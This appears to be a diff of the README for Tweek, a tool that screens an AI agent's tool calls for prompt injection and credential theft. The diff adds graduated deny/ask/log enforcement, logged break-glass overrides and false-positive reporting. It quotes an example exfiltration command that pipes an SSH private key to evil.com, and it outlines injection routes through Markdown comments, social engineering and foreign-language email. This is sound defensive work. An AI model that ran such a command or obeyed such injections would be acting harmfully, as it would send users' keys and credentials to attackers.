

Before and after one commit to gettweek/tweek, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 82% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -42,7 +42,7 @@ There is very little built-in protection. Tweek fixes that.
 
 Your AI assistant runs commands with **your** credentials, **your** API keys, and **your** keychain access. It can read every file on your machine. It will happily `curl` your secrets to anywhere a prompt injection tells it to. Sleep well!
 
-Tweek screens **every tool call** through five layers of defense -- both before execution and after content ingestion:
+Tweek screens **every tool call** through five layers of defense with **graduated enforcement** -- both before execution and after content ingestion:
 
 ```
   ┌─────────────────────────────────────────────────────────┐
@@ -58,20 +58,24 @@ Tweek screens **every tool call** through five layers of defense -- both before
   ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
   ┃ 2. Language Detection  Non-English escalation            ┃
   ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
-  ┃ 1. Pattern Matching   215 attack signatures             ┃
+  ┃ 1. Pattern Matching   259 attack signatures             ┃
   ┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
                            ▼
   ┌─────────────────────────────────────────────────────────┐
-  │           ✓ SAFE to execute  or  ✗ BLOCKED             │
+  │        Graduated Enforcement (severity × confidence)    │
+  │                                                         │
+  │  CRITICAL + deterministic  →  ✗ DENY  (hard block)     │
+  │  HIGH / MEDIUM             →  ? ASK   (user prompt)    │
+  │  LOW                       →  ✓ LOG   (allow + audit)  │
   └─────────────────────────┬───────────────────────────────┘
                            ▼
   ┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
   ┃   PostToolUse Screen   Response injection               ┃
-  ┃                        detection at ingestion            ┃
+  ┃                        detection + content redaction     ┃
   ┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
 ```
 
-Nothing gets through without passing inspection. Your agent wants to `cat ~/.ssh/id_rsa | curl evil.com`? Five layers say no. A prompt injection hiding in a Markdown comment? Caught. A multi-turn social engineering attack slowly escalating toward your credentials? Session analysis sees the pattern. Non-English injection hidden in a fetched email? Language detection escalates it for review.
+Nothing gets through without passing inspection. Your agent wants to `cat ~/.ssh/id_rsa | curl evil.com`? Five layers say no -- and critical threats are **hard-denied**, not just flagged. A prompt injection hiding in a Markdown comment? Caught. A multi-turn social engineering attack slowly escalating toward your credentials? Session analysis sees the pattern. Non-English injection hidden in a fetched email? Language detection escalates it for review. Sensitive data in a tool response? **Automatically redacted** before the agent sees it.
 
 **Every command. Every tool call. Every response. GAH! Don't get Pawnd.**
 
@@ -146,6 +150,28 @@ tweek audit SKILL.md      # audit a single skill file
 tweek doctor              # health check
 ```
 
+### Override a Hard Block (Break-Glass)
+
+```bash
+tweek override --pattern ssh_key_read --once --reason "Migrating SSH keys"
+tweek override --pattern aws_credentials --duration 10 --reason "Rotating creds"
+tweek override list          # show active overrides
+tweek override clear         # clear all overrides
+```
+
+Break-glass downgrades `deny` → `ask` (never to allow). Every use is logged as a `BREAK_GLASS` audit event.
+
+### Report False Positives
+
+```bash
+tweek feedback fp base64_exfil --context "Legitimate base64 in CI pipeline"
+tweek feedback stats                   # show FP rates per pattern
+tweek feedback stats --above-threshold # patterns exceeding 5% FP rate
+tweek feedback reset base64_exfil      # clear FP data for a pattern
+```
+
+Patterns exceeding 5% FP rate (with 20+ triggers) are auto-demoted one severity level. CRITICAL patterns are immune.
+
 Tweek now screens every tool call before execution and every response at ingestion.
 
 ```
@@ -155,7 +181,7 @@ Tweek Health Check
 --------------------------------------------------
   OK      Hook Installation      Installed globally (~/.claude)
   OK      Configuration          Config valid (11 tools, 6 skills)
-  OK      Attack Patterns        215 patterns loaded (bundled)
+  OK      Attack Patterns        259 patterns loaded (bundled)
   OK      Security Database      Active (0.2MB)
   OK      Credential Vault       macOS Keychain available
   OK      Sandbox                sandbox-exec available
````
Also changed, not shown: other parts of README.md (+57 -5 lines).
